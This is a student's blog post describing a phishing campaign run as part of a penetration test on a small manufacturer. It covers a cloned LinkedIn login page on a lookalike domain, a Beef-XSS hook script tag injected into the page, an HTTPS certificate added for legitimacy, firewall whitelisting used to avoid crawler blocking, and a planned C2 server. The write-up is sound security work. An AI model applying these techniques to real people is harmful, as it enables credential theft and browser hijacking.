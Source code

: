```yaml
---
permalink: /group/phishing
layout: single
title: Hoefnagels - phishing campaign
---
```


The goal of our group project is to research what is required from IT-Workz to start providing penetration test as a service. To do that, our
group was tasked with conducting multiple pen tests to select the core requirements.

We have started with establishing contact with Hoefnagels - a company specializing in manufacturing fire safety equipment. The company is quite
old and has been run by the same family since its inception. Since Hoefnagels is a rather small organization, they do not have a designated IT
department. They rely on a 3rd party that set up and does maintenance on their infrastructure.

The scope of the pen test focused on simulating an external threat and one of the goals was to conduct a phishing campaign. I have decided to
pick up this task and work on it together with other group member.

## Prerequisites

Our first goals while getting started were:

- Finding the appropriate technologies for hosting the malicious website.
- Coming up with a plausible scenario, so that the employees might click on the email.

I have decided to focus more on the first one and started researching different phishing tools. We wanted the tooling to give us the possibility
to extract credentials of the victims and to be able to plant a malicious file on their computers.

## Website

Based on our needs, I have decided to use a phishing framework that would aid me with hosting and managing the website. My choice fell on the
tool called [SocialFish](https://github.com/UndeadSec/SocialFish). SocialFish provided an easy way to host custom html websites and attaching some malicious JavaScript, as well as easy to use interface.

Moreover, we decided to use Beef-XSS - a framework which gives the attacker the possibility to control victim's browser, after delivering a
JavaScript payload.

The website had to be accessible from the internet, so I have decided to host it on a DigitalOcean's virtual machine which could handle
SocialFish and run some additional software.

## Initial deployment and HTTPS

![First droplet](../../assets/img/phishing/droplet_1.png)

We deployed our virtual machine, and I have started setting up the required software:

- SocialFish
- Beef-XSS
- Uncomplicated Firewall (UFW)
- LetsEncrypt bot

### SocialFish and Beef-XSS

SocialFish is an open source, Python software which allows users to maintain and run phishing campaigns. The application is open source, which
allowed me to customize the behavior of the server to tailor it to our needs.

I downloaded a copy of LinkedIn's log in page, and uploaded it to the virtual machine to use it as a custom phishing page. This allowed me to add a
a script tag which injects a Beef-XSS payload into the victim's browser.

```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```
Moreover, I used the Let's Encrypt certificate services to increase the legitimacy of my website. That way, the website seemed as if it was an actual
LinkedIn.

### Blocked domain and new website

![Blocked domain](../../assets/img/phishing/domain_blocked.png)

However, few hours after deploying the website, I have discovered that the domain was blocked. Apparently Google's (probably) web crawlers flagged the
website as malicious, since the domain name was `linkedlin.ml` and it was a copy of the linkedin front page. Moreover, I was running Beef-XSS and
SocialFish, which most likely triggered the domain flagging.

This time, we have decided to apply a firewall on our droplet and whitelist Hoefnagels IP address that we obtained from the physical testing, as well as
 our home and school addresses. I have decided to use `UFW` which was preinstalled on that instance of the Ubuntu server.  
_I have blurred out the IP addresses since these are sensitive information_

![Firewall rules](../../assets/img/phishing/firewall.png)

The firewall now only allows the selected IP addresses to the port 443 running the website and port 7443 running a C2 server `covenant` which we planned
to use after compromising victims.

![Blocked domain](../../assets/img/phishing/linkedllin.ml.png)